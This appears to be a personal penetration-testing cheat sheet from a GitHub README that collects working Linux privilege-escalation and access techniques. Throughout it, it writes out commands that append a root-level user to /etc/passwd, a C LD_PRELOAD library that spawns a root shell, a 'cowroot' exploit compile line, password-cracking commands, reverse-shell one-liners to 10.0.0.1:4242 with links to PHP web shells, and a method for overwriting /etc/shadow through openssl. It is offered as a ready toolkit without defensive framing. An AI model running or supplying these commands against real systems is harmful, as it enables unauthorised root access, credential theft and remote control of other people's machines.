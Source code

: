# Tracking the Various Tips and Tracks learned along the way


### Adding a user to /etc/passwd  

```bash
#hacker:myhackerpass
echo hacker:$(( echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> passwd
tar -cvf passwd.tar passwd
tar -xvf passwd.tar -C /etc/
# Using make with suid
make -s --eval="\$(file >> /etc/passwd,hacker5:\$\$1\$\$mysalt\$\$7DTZJIc9s6z60L6aj0Sui.:0:0:/:/bin/bash)" .
```

### Finding SUID   

- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -4000 2>/dev/null`

  
### Compiling a shell  

```c
/*
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
used to LD_PRELOAD shell.so
*/

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF
```

`gcc cowroot.c -o cowroot -pthread`
### Cracking Passwords with John  

- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format:RAW-SHA1`
- `john --list=formats`
- [Hash Formats](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)
- [hash-identifier](https://hashes.com/en/tools/hash_identifier)

### Cracking Passwords with Hashcat

- [Examples](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Upgrading a shell

- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`

### Reverse Shells

- `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
- `0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196`
- `/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1`
- https://github.com/flozz/p0wny-shell
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Nmap Scans

- `sudo nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p-`

### File Transferring

- `python3 -m http.server 80`

### Wordpress Vulnerability Scans

`wpscan --url 10.x.x.x`

### Overwriting /etc/shadow with OpenSSL

```bash
# Create keys in /tmp for easy access
cd /tmp
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

# Switch serving directory to /
cd /

# Start https content server with generated certs
openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

# In another local shell, retrieve /etc/shadow
curl -k https://localhost:1337/etc/shadow

# Modify root password with `hash:password` - `$1$mysalt$7DTZJIc9s6z60L6aj0Sui.` = myhackerpass
# Alternatively - openssl passwd -6 -salt xyz  yourpass ; -6 = SHA-512, -5 = SHA-256 and -1 = MD5

# Encrypt shadow file
openssl smime -encrypt -aes256 -in /tmp/shadow -binary -outform DER -out /tmp/shadow.enc /tmp/cert.pem

# Set back to root directory for restoring /etc/shadow
cd /

# Restore encrypted shadow file to /etc/shadow
openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/key.pem -out /etc/shadow
```
